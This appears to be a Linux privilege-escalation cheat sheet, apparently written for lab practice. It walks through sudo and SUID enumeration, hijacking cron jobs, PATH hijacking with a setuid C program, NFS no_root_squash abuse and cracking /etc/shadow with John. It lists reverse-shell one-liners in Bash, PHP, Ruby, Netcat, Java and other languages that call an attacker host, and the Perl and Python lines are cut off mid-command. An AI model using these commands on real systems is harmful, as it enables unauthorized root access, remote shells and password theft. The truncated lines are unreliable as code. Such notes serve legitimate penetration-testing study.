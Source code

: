 If you have local access to the machine first you want to find a way to get root.
First check what programs you can run as sudo so run:


	sudo -l
This is list all the programs that you can run as root and might give you a path to escalate your
privileges. Check at this wedsite to see if any of the progams are listed for sudo:

	https://gtfobins.github.io/gtfobins/nmap/

Next we will check to see if any programs allow SUID or SGID bits set.

	find / -type f -perm -04000 -ls 2>/dev/null

These will likely let you read the contents of a file that you normally would not normally be able to.
For example the contents of /etc/shadow, this may allow you to crack a password and get root access.


The next thing we will check is capabilities using this command:

	getcap -r / 2>/dev/null


This will redirect any errors using the standard 2>/dev/null, if any capabilities are found check gtfo 
for a path.


Next we will look for any crontab jobs that we might be able to hijack:

	cat /etc/contab

If there is an existing crobtab job we can change the code to start a reverse shell.
Make sure the file is still executable after using:

	chmod +x <filename>

	Bash:
	bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
	
	PERL:
	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in

	
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))

	PHP:
	php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
	
	Ruby:
	ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

	Netcat:
	nc -e /bin/sh 10.0.0.1 1234

	Java:
	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()

Make sure you change the IP address and Port and start a listening port on your attck machine.
For even more reverse shells check out this site:

	https://www.revshells.com/

Once you have a root shell you can read the contents of /etc/shadow, this will allow you to try
and crack the hashes.

Copy the full shadow file or just the users you wish to crack then run this John command:

	john --wordlist=/usr/share/wordlist/rockyou.txt --format=sha512crypt shadowfile.txt

Check your path variables with:


	echo $PATH
	find / -writable 2>/dev/null
	find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u


The second and third commands will show what folders your user has write access to.
If have have writeable access to the path you can add additionl paths:

	export PATH=/tmp:$PATH

For example this will add the /tmp folder to path.  Then cd into tmp and crate a file thm.


	cd /tmp
	echo "/bin/bash" > thm
	chmod 777 thm
	

Then create a c file that calls the thm binary which will elevate your privledges to root.

	#include<unistd.h>
	void main()
	{ setuid(0);
	  setgid(0);
	  system("thm");
	}

Once the file is saved for example as file_exp.c complile it then run it.


	gcc file_exp.c -o file -w
	chmod u+s file
	./file


Next we will check for shares that we can mount.  One the target system run:

	cat /etc/exports

If any shares have no_root_squash then if they are mounted on another system you will not lose root.

On the attack system run:

	showmount -e <target IP>

Create a tmp directory and then mount a share that has no_root_squash and your user account has executable rights.

	mkdir /tmp/backup
	mount -o rw <target IP>:/<share> /tmp/backup
	cd /tmp/backup
	nano nfc.c

	int main()
	{ setgid(0);
	  setuid(0);
	  system("/bin/bash");
	  return 0;
	}

Once you save the nfs.c complile it with gcc.


	gcc nfs-c -o nfs -w
	chmod +s nfs


Switch back to the attack machine and you should see both files run the compliled file.


	./nfs

There are more and new escalation techniques all the time but this will get you started.



	

